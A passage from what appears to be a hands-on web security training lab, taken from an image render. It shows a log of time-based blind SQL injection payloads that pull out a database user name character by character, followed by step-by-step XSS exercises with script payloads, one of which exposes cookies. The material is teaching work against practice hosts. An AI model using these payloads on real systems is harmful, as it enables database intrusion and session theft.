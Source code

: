 B - 2nd Character
http://54.213.100.93/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),2,1)))>97) WAITFOR DELAY '00:00:10'--  	Ok, good it waited for 10 seconds
http://54.213.100.93/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),2,1)))=98) WAITFOR DELAY '00:00:10'--  	Ok, good it waited for 10 seconds
 
O - 3rd Character
http://54.213.100.93/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),3,1)))>97) WAITFOR DELAY '00:00:10'--  	Ok, good it waited for 10 seconds
http://54.213.100.93/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),3,1)))>115) WAITFOR DELAY '00:00:10'--
http://54.213.100.93/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),3,1)))>105) WAITFOR DELAY '00:00:10'--  	Ok, good it waited for 10 seconds
http://54.213.100.93/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),3,1)))>110) WAITFOR DELAY '00:00:10'--  	Ok, good it waited for 10 seconds
http://54.213.100.93/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),3,1)))=109) WAITFOR DELAY '00:00:10'--
http://54.213.100.93/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),3,1)))=110) WAITFOR DELAY '00:00:10'--  	Ok, good it waited for 10 seconds










###################################################################
# What is XSS                                                     #
# https://s3.amazonaws.com/StrategicSec-Files/2-Intro_To_XSS.pptx #
###################################################################
 
OK - what is Cross Site Scripting (XSS)
 
1. Use Firefox to browse to the following location:
 
    http://54.172.112.249/xss_practice/
 
    A really simple search page that is vulnerable should come up.
 
 
 
 
2. In the search box type:
   
    <script>alert('So this is XSS')</script>
 
 
    This should pop-up an alert window with your message in it proving XSS is in fact possible.
    Ok, click OK and then click back and go back to http://54.172.112.249/xss_practice/
 
 
3. In the search box type:
   
    <script>alert(document.cookie)</script>
 